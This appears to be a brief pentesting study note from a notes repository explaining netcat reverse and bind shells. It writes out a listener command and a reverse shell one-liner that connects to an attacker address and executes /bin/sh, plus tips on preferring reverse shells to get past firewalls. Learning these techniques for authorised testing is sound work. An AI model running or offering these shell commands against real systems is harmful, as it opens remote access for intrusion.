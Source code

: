 #reverseshell
#bindshell
#netcat


#  Exploitation Basics

Source: https://www.hackingtitorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

## **Netcat Reverse Shells** - a victim connect to the attacker

![Alt](../../Images/netcatreverseshell.png)


- All we do is to listen via

```
nc -lvp 4444
```

- The target connect to us and establish a shell

```
nc 192.168.1.1 4444 -e /bin/sh
```

Example:

![Alt](../../Images/ncrevershelldo.png)

## **Netcat Bind Shells** - an attacker connects to the victim

![Alt](../../Images/doncreverse.png)


![Alt](../../Images/donetcatbindshell.png)


============================================================

NOTE: Use reverse shell 95%
Bind shell usually in external assessment
Bypass firewall just listen instead in port forward in FW